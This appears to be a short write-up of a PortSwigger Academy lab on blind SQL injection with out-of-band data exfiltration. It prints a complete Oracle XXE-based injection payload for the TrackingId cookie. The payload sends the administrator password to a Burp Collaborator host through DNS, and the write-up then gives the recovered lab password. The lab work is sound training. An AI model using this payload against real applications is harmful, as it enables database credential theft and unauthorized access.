


### Blind SQL injection with out-of-band data exfiltration : PRACTITIONER

---

> Since the application executes the SQL asynchronously and has no effect on the application response, we can try and trigger and out of band network interaction.


> Capturing a `GET` request using BURPSUITE PROXY HTTP history, we see the `TrackingId` cookie that is vulnerable.



>  Opening the [SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) and trying the different out of band payloads and placing them in the `TrackingId` cookie with the burp collaborator domain.
>  We also enter our payload to get the password for the `administrator` user.
```
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.go8loz9vn6mt7hst7vugtmtsljrcf33s.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```


> Opening collaborator and polling we see the following DNS requests, confirming that we executed SQL statements.



> And the password is selected.

```
q66xkdcyutnmz6rkju7h
```

> Logging in as `administrator:q66xkdcyutnmz6rkju7h` completes the lab.

---
